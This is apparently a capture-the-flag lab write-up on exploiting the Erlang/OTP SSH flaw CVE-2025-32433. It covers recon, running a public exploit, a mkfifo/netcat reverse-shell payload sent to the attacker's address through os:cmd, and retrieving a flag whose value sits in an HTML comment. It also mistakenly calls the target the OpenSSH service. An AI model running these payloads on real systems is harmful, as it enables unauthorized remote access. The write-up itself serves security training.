 # <div align="center">Erlang/OTP SSH: CVE-2025-32433</div>
<div align="center">Learn about and exploit Erlang/OTP SSH CVE-2025-32433 in a lab setup.</div>
<div align="center">
  <img src="https://github.com/user-attachments/assets/b452eef7-47a9-4d7c-8d81-766659f06f73" height="200"></img>
</div>

### Task 1. Introduction

Erlang is a programming language made for building reliable, real-time systems that can handle many users at once. It was originally created by Ericsson for telecom use but is now used in many industries to build distributed systems.

OTP (Open Telecom Platform) is a set of tools and libraries that work with Erlang to help build these systems. Even though it started in telecom, OTP is now used more broadly for any kind of distributed application. Together, they're often called Erlang/OTP.

Erlang is used by many companies for product development and by universities for teaching and research.

One part of OTP is the SSH module, which lets Erlang systems use secure shell access and transfer files safely.

Recently, a critical vulnerability (CVE-2025-32433) was found in the Erlang/OTP SSH. It allows attackers to run code on the system without logging in. This issue was discovered by researchers at Ruhr University Bochum and has a CVSS score of 10.0, which means it’s extremely serious.

## Task 2: Exploitation Walkthrough

### Step 1: Reconnaissance

We begin by performing an initial service enumeration using Nmap:

```bash
nmap 10.10.237.184 -sV -sC
```

**Nmap Output Summary:**
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     Erlang/5.2.9
2222/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.9
```

The system is running two SSH services:
- Port **22**: `SSH-2.0-Erlang/5.2.9`
- Port **2222**: `OpenSSH 9.6p1 (Ubuntu)`

---
### Step 2: CVE Exploitation

We will target the outdated OpenSSH service using a public exploit: **CVE-2025-32433**.

Clone the exploit from GitHub:
```bash
git clone https://github.com/ProDefense/CVE-2025-32433
cd CVE-2025-32433
```

Now, configure the IP and port in the exploit script as per the target:

![Configuring exploit](https://github.com/user-attachments/assets/ce2f79c8-7c53-42c1-aabf-8dc912c4bee4)

Run the exploit:
```bash
python3 CVE-2025-32433.py
```

**Expected Output:**
- Confirmation that the exploit has been sent
- A banner or response from the SSH server
- Confirmation that `/lab.txt` has been written

---
### Step 3: Reverse Shell Execution

To escalate and gain a reverse shell, modify the payload in the exploit to use Erlang's `os:cmd()` for command execution:

![2025-04-25_14-12](https://github.com/user-attachments/assets/987f3e81-c22c-421b-99a1-3f197161cd36)

Replace with:

```erlang
os:cmd("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <your Vpn Ip> 8000 >/tmp/f | nc <your Vpn Ip> 4444").
```

![Payload injection](https://github.com/user-attachments/assets/d8275718-5035-4378-b5c9-99a725aaba3b)

Set up two Netcat listeners on the attack machine:

**Terminal 1**:
```bash
nc -lnvp 4444
```

**Terminal 2**:
```bash
nc -lnvp 8000
```

Once executed, you should receive a shell connection:

![Netcat Shell Received](https://github.com/user-attachments/assets/fc348189-b7d1-46c1-9733-7cab7eb73505)

---
### Step 4: Post-Exploitation

Now we are inside the system.

#### Shell Access Confirmation:

![Shell confirmation](https://github.com/user-attachments/assets/3b583013-2a6f-4b94-8cb3-7acf43caeb05)

#### Retrieve User Flag:

```bash
cat flag.txt
```

![Flag](https://github.com/user-attachments/assets/dc62f636-3236-4a85-96a5-353f53825703)
<!--
```
THM{U57U3P5KnR}
``` -->

#### Confirm Hostname:
```bash
uname -a
```

![Hostname](https://github.com/user-attachments/assets/c739d61f-291f-4dfd-9c4c-0bc512aefc9d)

```
c7b79fd068ba
```

